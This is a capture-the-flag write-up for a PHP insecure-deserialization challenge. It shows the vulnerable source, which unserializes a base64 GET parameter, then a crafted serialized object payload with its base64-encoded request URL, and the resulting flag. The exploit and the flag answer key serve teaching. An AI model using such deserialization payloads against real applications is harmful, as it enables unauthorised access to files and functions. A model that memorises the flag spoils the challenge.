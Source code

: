 # Serialization Saga

> This Capture The Flag (CTF) challenge is designed to assess your ability to identify and exploit fundamental insecure deserialization vulnerabilities. Can you successfully execute the necessary functions and retrieve the flags? Lesssgoo!


## Solution

- This challenge is vulnerable to insecure deserialization.
- **Serialization** is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes, i.e. **Objects ⇒ Bytes**
- **Deserialization** is the process of restoring this byte stream to a fully functional replica of the original object, i.e. **Bytes ⇒ Objects.**

```php
<?php

error_reporting(0);

class CloudSEK  {

    private $func_no;
    private $func_name;

    function __construct($no , $name)  {
        if ($no == NULL && $name == NULL)   {
            $this->func_no = $no;
            $this->func_name = $name;
        }
    }

    function __wakeup()  {
        $func_map = array(
            1 => "XVigil",
            2 => "BeVigil",
            3 => "GetMeDemFlagz",
        );
        
        $func_no = $this->func_no;
        $func_name = str_rot13($this->func_name);

        if ($func_map[$func_no] === $func_name)  {
            $this->$func_name();
        }
        else    {
            echo "<h3>Invalid Object Data</h3>";
        }
    }

    function XVigil()   {
        echo "<h3>XVigil is a cybersecurity platform designed to help organizations monitor and mitigate potential security threats and vulnerabilities across the digital landscape.</h3>";
    }

    function BeVigil()  {
        echo "<h3>World's first Security Search Engine mobiles that makes sure the applications installed in your phone are safe.</h3>";
    }

    function GetMeDemFlagz()    {
        $flag_file = "/tmp/flag.txt";
        if (file_exists($flag_file))    {
            $file_contents = file_get_contents($flag_file);
            echo $file_contents;
        }
        else    {
            $err_msg = "<h3>File Not Found!</h3>";
            $file_contents = $err_msg;
            echo $err_msg;
        }
    }
}

// $cloudsek = new CloudSEK(1 , "XVigil");
$sess = $_GET["sess"];
if (!isset($sess))  {
    exit();
}
$data = base64_decode($sess);
$obj = unserialize($data);

?>
```

- We are provided with the above source code on the webpage.
- Going through the code we can deduce that it takes a `GET` parameter named `sess` which is base64 encoded string. This base64 string gets decode and gets deserialized.
- In PHP, the `unserialize()` method invokes the magic method `__wakeup()` for deserialization.
- [More on magic methods](https://portswigger.net/web-security/deserialization/exploiting#magic-methods)
- In the `__wakeup()` magic method, we see that an array `$func_map` has been defined with 3 items.
- `$func_no`  stores the number which will be used to access the array .
- `$func_name` stores the function name but after performing a simple ROT13 shift.
- The below block of code performs a **STRICT** comparison(i.e. **BOTH** value and type should be same) between the func_name from the array(accessed using `$func_no`) and the ROT13 shifted `$func_name`.
    
    ```php
    if ($func_map[$func_no] === $func_name)  {
    			$this->$func_name();
    }
    ```
    
- We have 3 functions defined:
    - `XVigil()` : outputs text
    - `BeVigil()` : outputs text
    - `GetMeDemFlagz()` : outputs the content of `flag.txt` in the `/tmp` directory.
- We should craft a serialized payload keeping these things in mind:
    - `func_no` should get value `3` because the mapping in the `func_map` array to `GetMeDemFlagz` is at the 3rd index
    - ROT13 of `GetMeDemFlagz` : `TrgZrQrzSyntm`
    - Base64 encoded and passed as a GET parameter `sess` in the url.
        - `{URL}/?sess=<base64 encoded string>`
- With the help of [this page](https://portswigger.net/web-security/deserialization/exploiting#how-to-identify-insecure-deserialization), we can craft a payload.

<br>

#### Final Payload:

```php
O:8:"CloudSEK":2:{s:7:"func_no";i:3;s:9:"func_name";s:13:"TrgZrQrzSyntm";}
```

- `O:8:"CloudSEK"` : An object with the 8-character class name `"CloudSEK"`
- `2` - the object has 2 attributes
- `s:7:"func_no"` : The key of the first attribute is the 7-character string `"func_no"`
- `i:3` : Value of first attribute is the 3rd index in func_map in the `__wakeup()` function
- `s:9:"func_name"` : The key of the second attribute is the 9-character string `"func_name"`
- `s:13:"TrgZrQrzSyntm"` : Value of second attribute is a 13 character string `TrgZrQrzSyntm` (from rot13 of `GetMeDemFlagz`)

- Base64 encoding the above payload:
    `Tzo4OiJDbG91ZFNFSyI6Mjp7czo3OiJmdW5jX25vIjtpOjM7czo5OiJmdW5jX25hbWUiO3M6MTM6IlRyZ1pyUXJ6U3ludG0iO30=`
    
- Passing above base64 string as a value to `sess` parameter and appending to the URL, we get the flag

```html
/?sess=Tzo4OiJDbG91ZFNFSyI6Mjp7czo3OiJmdW5jX25vIjtpOjM7czo5OiJmdW5jX25hbWUiO3M6MTM6IlRyZ1pyUXJ6U3ludG0iO30=
```
<br>

![Untitled](Untitled.png)

### FLAG
```
CSEK{PhP_0Bj3CT_D3$3R1L1Z@T10N}
``` 